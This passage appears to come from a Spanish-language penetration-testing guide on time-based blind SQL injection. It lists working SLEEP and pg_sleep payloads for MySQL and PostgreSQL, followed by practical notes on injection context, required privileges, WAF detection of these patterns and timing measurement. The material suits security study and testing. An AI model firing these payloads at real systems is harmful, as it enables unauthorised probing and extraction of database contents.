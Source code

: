 - MySQL:

```SQL
' AND (SELECT SLEEP(10))-- -
```

```SQL
1 AND (SELECT SLEEP(10))
```

- PostgreSQL:

```SQL
'; SELECT pg_sleep(10); --
```

```SQL
'|| (SELECT pg_sleep(10)) --
```


---

## Consideraciones prácticas y limitaciones

1. **Contexto de inyección:** el payload debe adaptarse al contexto exacto (tipo de parámetro, si hay comillas, si se permite `;`, etc.).
    
2. **Permisos y funciones habilitadas:** algunas funciones requieren privilegios o pueden estar deshabilitadas. En Oracle hay diferencias entre `DBMS_LOCK.SLEEP` y `DBMS_PIPE.RECEIVE_MESSAGE`.
    
3. **WAF y detección:** muchos WAF detectan patrones comunes (`SLEEP`, `pg_sleep`, `WAITFOR`, etc.). Si el objetivo tiene protección es posible que los intentos sean bloqueados.
    
4. **Medición de tiempos:** al medir retardos pequeños en redes con latencia variable, conviene usar duraciones razonables (p. ej. 5–10 s) y repetir para confirmar.
    

---



